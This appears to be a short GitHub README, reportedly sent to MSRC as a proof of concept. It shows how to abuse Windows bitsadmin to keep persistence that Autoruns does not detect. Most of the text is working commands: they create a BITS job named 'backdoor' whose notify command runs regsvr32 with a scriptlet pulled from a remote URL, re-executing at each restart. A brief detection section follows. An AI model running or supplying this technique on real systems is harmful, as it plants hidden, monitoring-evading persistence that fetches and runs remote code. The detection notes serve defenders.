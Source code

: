 # bitsadminexec
Use bitsadmin to maintain persistence and bypass Autoruns

Report to MSRC.

###POC
(1)First we should have the administrator's right.

(2)Then run this on cmd with administrator's right:

```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```

(3)Then it will run the following command to start a calc.exe:
```
regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll
```

(4)What's more,after we restart the system,the command to start a calc.exe runs again and again.


###Impact of the issue
Autoruns's startup monitor can't find this.

Test success on Win7 、Win8、Server 2008 and so on.

###Detect
Run this to check the jobs and delete it:
```
bitsadmin /list /allusers /verbose
```
or
```
Stop Background Intelligent Transfer Service
```
